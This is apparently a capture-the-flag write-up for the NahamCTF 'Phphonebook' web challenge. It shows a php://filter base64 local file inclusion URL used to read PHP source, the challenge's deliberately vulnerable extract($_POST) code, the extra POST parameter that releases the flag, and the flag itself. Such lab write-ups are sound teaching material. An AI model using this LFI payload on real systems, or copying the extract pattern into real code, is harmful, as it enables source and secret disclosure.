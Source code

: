 ```yaml
---
title: "NahamCTF: Phphonebook"
categories:
  - NahamCTF
tags:
  - NahamCTF
---
```


When we visit the website, we get this message:

*Sorry! You are in /index.php/?file=*

*The phonebook is located at phphonebook.php*

Visiting http://jh2i.com:50002/?file=phphonebook.php gives us a blank box that says "Enter Number: " and a submit button. Submitting numbers doesn't seem to work, but we can check the source using LFI in that ?file parameter:

http://jh2i.com:50002/?file=php://filter/convert.base64-encode/resource=phphonebook.php

This gives us the source, and shows us an interesting section:

``` 
<?php
  extract($_POST);

    if (isset($emergency)){
            echo(file_get_contents("/flag.txt"));
    }
?>
```

So, if we catch the request in Burp, add an &emergency=true parameter to the POST request, and send it, we get the flag:

**flag{phon3_numb3r_3xtr4ct3d}**
